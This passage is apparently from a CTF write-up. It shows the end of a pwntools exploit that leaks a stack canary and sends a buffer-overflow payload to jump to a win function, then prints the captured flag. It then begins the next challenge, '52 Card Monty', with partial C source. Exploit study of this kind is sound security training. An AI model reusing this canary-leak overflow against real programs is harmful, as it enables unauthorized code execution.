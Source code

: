 offset = 72
win = 0x004011e6

p.sendlineafter(b"hello\n", "A"*leak_canary_offset + "i'm")
p.recvuntil(b"hi ")
leak = p.recv(7)
leak = b"\x00" + leak
canary = u64(leak)

payload = b"A" * offset
payload += p64(canary) * 2
payload += p64(win)

p.sendlineafter(b"aplet123\n", payload)
p.sendline("bye")

p.interactive()

# lactf{so_untrue_ei2p1wfwh9np2gg6} 

{% endhighlight %}

## Pwn/52 Card Monty

![image](https://github.com/fyrepaw13/fyrepaw13.github.io/assets/62428064/04046e49-dccc-4253-af8f-efa93b818930)

### Source Code

{% highlight c %}
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <time.h>

#define DECK_SIZE 0x52
#define QUEEN 1111111111

void setup() {
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  setbuf(stderr, NULL);

  srand(time(NULL));
}

void win() {
  char flag[256];

  FILE *flagfile = fopen("flag.txt", "r");

  if (flagfile == NULL) {
    puts("Cannot read flag.txt.");
  } else {
    fgets(flag, 256, flagfile);
    flag[strcspn(flag, "\n")] = '\0';
    puts(flag);
  }
}

long lrand() {
  long higher, lower;
  higher = (((long)rand()) << 32);
  lower = (long)rand();
  return higher + lower;
}

void game() {
  int index;